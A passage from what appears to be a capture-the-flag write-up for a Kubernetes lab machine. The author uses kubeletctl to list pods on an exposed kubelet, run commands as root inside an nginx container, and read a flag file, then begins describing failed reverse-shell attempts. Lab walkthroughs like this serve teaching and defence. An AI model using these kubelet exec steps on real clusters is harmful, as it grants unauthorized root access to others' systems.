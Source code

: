 

To make it more readable, I'll use `jq` to get a list of the name and
namespace:



    oxdf@hacky$ kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
    ["kube-proxy-562gf","kube-system"]
    ["kube-scheduler-steamcloud","kube-system"]
    ["kube-controller-manager-steamcloud","kube-system"]
    ["kube-apiserver-steamcloud","kube-system"]
    ["etcd-steamcloud","kube-system"]
    ["nginx","default"]
    ["coredns-78fcd69978-7dhjv","kube-system"]
    ["storage-provisioner","kube-system"]



There's only one that's not in the `kube-system` namespace.

## Shell as root in nginx

### exec

With access to the kubelet service, I can also run commands on the
containers. I'll use the `exec` command in `kubeletctl`, giving both the
name of the pod (nginx) and the name of the container (nginx):



    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
    uid=0(root) gid=0(root) groups=0(root)



As root, I can read the `user.txt` in the `/root` directory:



    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "ls /root" -p nginx -c nginx
    user.txt
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "cat /root/user.txt" -p nginx -c nginx
    e73f21f6************************



### Rev Fails

I tried a handful of things to get the container to connect back to me.
It does have `bash`:



    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "which bash" -p nginx -c nginx
    /bin/bash



But it won't do a `bash` reverse shell:

